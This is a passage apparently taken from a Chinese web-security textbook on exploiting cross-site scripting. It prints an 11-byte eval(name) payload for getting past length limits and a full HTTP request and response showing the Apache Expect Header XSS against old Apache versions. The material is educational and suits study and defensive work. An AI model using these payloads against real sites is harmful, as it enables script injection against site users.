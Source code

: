```
eval(name);

```
只有11个字节，短到了极点。
这个技巧为安全研究者luoluo所发现，同时他还整理了很多绕过XSS长度限制的技巧。

 3.2.7 变废为宝：Mission Impossible

 2016-04-06

从XSS漏洞利用的角度来看，存储型XSS对攻击者的用处比反射型XSS要大。因为存储型XSS在用户访问正常URL时会自动触发；而反射型XSS会修改一个正常的URL，一般要求攻击者将XSS URL发送给用户点击，无形中提高了攻击的门槛。

 2016-04-06

而有的XSS漏洞，则被认为只能够攻击自己，属于“鸡肋”漏洞。但随着时间的推移，数个曾经被认为是无法利用的XSS漏洞，都被人找到了利用方法。
3.2.7.1　Apache Expect Header XSS
“Apache Expect Header XSS”漏洞最早公布于2006年。这个漏洞曾一度被认为是无法利用的，所以厂商不认为这是个漏洞。这个漏洞的影响范围是：Apache Httpd Server版本1.3.34、2.0.57、2.2.1及以下。漏洞利用过程如下。
向服务器提交：

```
GET / HTTP/1.1
Accept: */*
Accept-Language: en-gb
Content-Type: application/x-www-form-urlencoded
Expect: <script>alert('http://www.whiteacid.org is vulnerable to the Expect Header
vulnerability.');</script>
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; .NET
CLR 1.1.4322)
Host: www.whiteacid.org
Connection: Keep-Alive

```

服务器返回：


```
HTTP/1.1 417 Expectation Failed
Date: Thu, 21 Sep 2006 20:44:52 GMT
Server: Apache/1.3.33 (Unix) mod_throttle/3.1.2 DAV/1.0.3 mod_fastcgi/2.4.2
mod_gzip/1.3.26.1a PHP/4.4.2 mod_ssl/2.8.22 OpenSSL/0.9.7e
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: text/html; charset=iso-8859-1
1ba
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<HTML><HEAD>
<TITLE>417 Expectation Failed</TITLE>
</HEAD><BODY>
<H1>Expectation Failed</H1>
The expectation given in the Expect request-header
field could not be met by this server.<P>
The client sent<PRE>
Expect: <script>alert('http://www.whiteacid.org is vulnerable to the Expect Header
vulnerability.');</script>
</PRE>
but we only allow the 100-continue expectation.
</BODY></HTML>
0

```
